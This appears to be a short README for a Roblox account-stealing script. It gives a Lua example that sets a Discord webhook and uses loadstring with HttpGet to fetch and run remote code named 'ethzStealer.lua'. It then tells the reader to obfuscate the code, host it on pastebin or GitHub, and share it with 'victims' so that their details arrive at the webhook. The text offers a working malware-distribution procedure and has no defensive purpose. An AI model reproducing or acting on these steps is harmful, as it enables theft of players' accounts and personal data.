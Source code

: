 * theres a risk of u getting banned so use an alt account (rarely)

* EXAMPLE:

```lua
User_Name = "Roblox"
Web_Hook = "https://discord.com/api/webhooks/xxxxxx"
loadstring(game:HttpGet("https://raw.githubusercontent.com/ethz07/ethzScripts-ADM/main/ethzStealer.lua"))()
```
* after u finish it obfuscate the code then make it executable in pastebin github etc.
* after share it to your victims if they execute your code ur gonna get a webhook message and read the includes here u will see details.
